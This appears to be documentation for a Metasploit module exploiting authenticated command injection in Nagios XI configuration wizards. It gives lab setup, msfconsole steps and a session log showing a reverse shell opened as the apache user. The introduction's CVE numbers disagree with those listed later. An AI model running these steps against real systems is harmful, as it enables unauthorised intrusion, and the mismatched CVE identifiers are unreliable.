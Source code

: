 ## Vulnerable Application
This module exploits CVE-2021-25926, CVE-2021-25927, and CVE-2021-25928: OS command injection vulnerabilities
in `/nagiosxi/config/monitoringwizard.php` that enable an authenticated user to achieve remote code execution
on NagiosXI from versions 5.5.6 to 5.7.5 as the `apache` user. There are three vulnerable configuration wizards
(`windowswmi`, `switch`, `cloud-vm`) that use two vulnerable URL parameters
(`ip_address`, `plugin_output_len`). The `windowswmi` configuration wizard uses the
`plugin_output_len` parameter, while `switch` and `cloud-vm` use the `ip_address` parameter.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate
to the target and obtain the version of Nagios XI installed, which is then used to check if the target is running a version
of NagiosXI between versions 5.5.6 and 5.7.5.

### Installation Steps
Note: The module can attempt to complete the configuration steps after NagiosXI has been installed.

#### Pre-installed OVA
1. Download an OVA with NagiosXI installed
    1. An OVA with a vulnerable NagiosXI 5.7.5 application can be downloaded from 
    Nagios [here](https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.7.5-64.ova).
    2. To download other vulnerable versions, replace the version number in the URL with the desired version.
2. Configure the NagiosXI installation
    1. The OVA has NagiosXI running on startup. Launch the VM and visit the VM's IP in a browser.
    2. Configure the `nagiosadmin` user's password and whether you'd like to force HTTPS.
    3. Login as the `nagiosadmin` user and accept the license agreement when prompted.

#### Manual Install on Linux
Note: NagiosXI can only be installed on specific operating systems (RHEL, CentOS, Oracle Linux, Debian, Ubuntu).
Supported version numbers can be found in the installation guide
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf). Older versions of
NagiosXI might require older versions of the operating systems mentioned. Consult the specific version's documentation if errors occur
on newer distributions.

1. Download NagiosXI
    1. Choose a version between 5.5.6 and 5.7.5 from [here](https://www.nagios.com/downloads/nagios-xi/older-releases/)
2. Install NagiosXI with the following commands
    1. `tar xzf xi-5.7.5.gz`
    2. `cd nagiosxi`
    3. `./fullinstall`
3. Configure the NagiosXI installation
    1. Visit the installed NagiosXI application in a web browser.
    2. Configure the `nagiosadmin` user's password and whether you'd like to force HTTPS.
    3. Login as the `nagiosadmin` user and accept the license agreement when prompted.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/nagios_xi_configwizards_authenticated_rce`
- [ ] `set RHOSTS TARGET_IP`
- [ ] `set RPORT 443`
- [ ] `set SSL true`
- [ ] `set USERNAME USER`
- [ ] `set PASSWORD PASSWORD`
- [ ] `set TARGET_CVE CVE-2021-25296`
- [ ] `set LHOST YOUR_IP`
- [ ] `set LPORT YOUR_LISTENING_PORT`
- [ ] `run`

## Options

### USERNAME
A valid NagiosXI username, which can be for an administrator or regular user.

### PASSWORD
The password for the provided NagiosXI username.

### TARGET_CVE
The CVE to target. Each CVE corresponds to a specific target:
- CVE-2021-25296: `windowswmi` configuration wizard RCE via the `plugin_output_len` URL parameter
- CVE-2021-25297: `switch` configuration wizard RCE via the `ip_address` URL parameter
- CVE-2021-25298: `cloud-vm` configuration wizard RCE via the `ip_address` URL parameter.

Note that CVE-2021-25298 is in the `cloud-vm` configuration wizard but we set the `wizard`
URL parameter value to `digitalocean` in order to make sure we use this wizard; there are
potentially other values that could be used here.

## Scenarios

### CentOS7 running NagiosXI 5.5.6 to 5.7.5 (Official OVA)
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOSTS 192.168.104.17
RHOSTS => 192.168.104.17
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.104.2
LHOST => 192.168.104.2
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LPORT 8443
LPORT => 8443
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.104.2:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.104.2:8443 -> 192.168.104.17:56742) at 2023-02-06 13:35:49 -0500

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```
